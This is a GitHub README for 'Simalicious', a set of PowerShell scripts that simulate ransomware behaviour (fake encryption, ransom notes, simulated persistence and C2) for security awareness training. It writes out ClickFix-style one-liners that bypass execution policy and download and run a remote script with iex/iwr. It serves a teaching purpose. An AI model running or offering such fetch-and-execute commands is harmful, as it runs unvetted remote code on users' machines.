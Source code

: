 # Simalicious - Cybersecurity Training Scripts

PowerShell scripts that simulate malicious activity for cybersecurity awareness training. These scripts demonstrate common attack patterns without causing actual harm.

## ⚠️ IMPORTANT DISCLAIMER

**THESE SCRIPTS ARE FOR EDUCATIONAL AND TRAINING PURPOSES ONLY**

- No files are actually encrypted or harmed
- No real malicious activity occurs
- All actions are simulated for learning
- Do not use these scripts for illegal purposes
- Always run in controlled training environments

## 🎯 Training Scenarios

### Phishing & ClickFix Attacks
These scripts simulate the PowerShell-based attacks commonly delivered through:
- Phishing emails with malicious attachments
- "ClickFix" social engineering (fake error messages)
- Malicious websites instructing users to run PowerShell commands
- Tech support scams

## 📁 Files Included

### `simalicious.ps1` - Main Simulation Script
The comprehensive malware simulation that demonstrates:
- System reconnaissance and information gathering
- File discovery and targeting
- Fake encryption process with progress indicators
- Ransomware note creation
- Persistence mechanism simulation
- Command & Control (C2) communication simulation
- Anti-analysis techniques

**Usage:**
```powershell
# Basic execution
.\simalicious.ps1

# Verbose mode (shows detailed operations)
.\simalicious.ps1 -Verbose

# Quick mode (faster execution for demos)
.\simalicious.ps1 -QuickMode


# Usage examples that attackers might instruct victims to run:

# Via Run Dialog (Win+R):
powershell -ep bypass -c "iex (iwr 'https://raw.githubusercontent.com/ifrantic/simalicious/refs/heads/main/simalicious.ps1').Content"

# Via Command Prompt:
powershell.exe -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/ifrantic/simalicious/refs/heads/main/simalicious.ps1' -UseBasicParsing).Content"

```
## 🚨 Common Attack Patterns Demonstrated
### 1. Win+R ClickFix Pattern
Attackers often instruct victims to:
1. Press `Windows + R` to open Run dialog
2. Paste a malicious PowerShell command
3. Press Enter to execute


## 🛡️ Training Value

This simulation helps learners understand:

### Attack Techniques
- How malware gathers system information
- File discovery and targeting methods
- Encryption simulation and ransom demands
- Persistence and stealth techniques
- Command and control communication

### Social Engineering
- ClickFix attack methodology
- PowerShell-based delivery mechanisms
- Urgency and fear tactics in ransom notes
- Technical instruction obfuscation

### Detection Opportunities
- Suspicious PowerShell execution patterns
- Network communication indicators
- File system changes and artifacts
- Registry and persistence modifications

## 🔧 Training Environment Setup

### Prerequisites
- Windows system with PowerShell 5.0+
- Ability to run PowerShell scripts
- Controlled/isolated training environment


## 🧹 Cleanup

The simulation creates temporary files for realism:

### Automatic Cleanup Locations
- Temp directory: `%TEMP%\simalicious_training\`
- Desktop ransom note: `Desktop\README_SIMALICIOUS_TRAINING.txt`
- Additional temp files in `%TEMP%`

### Manual Cleanup
```powershell
# Remove simulation artifacts
Remove-Item "$env:TEMP\simalicious_training" -Recurse -Force -ErrorAction SilentlyContinue
Remove-Item "$env:USERPROFILE\Desktop\README_SIMALICIOUS_TRAINING.txt" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:TEMP\YOUR_FILES_ARE_ENCRYPTED.txt" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:TEMP\TRAINING_RANSOM_NOTE.txt" -Force -ErrorAction SilentlyContinue
```

---

**Remember**: The best defense against these attacks is user education and technical controls working together!
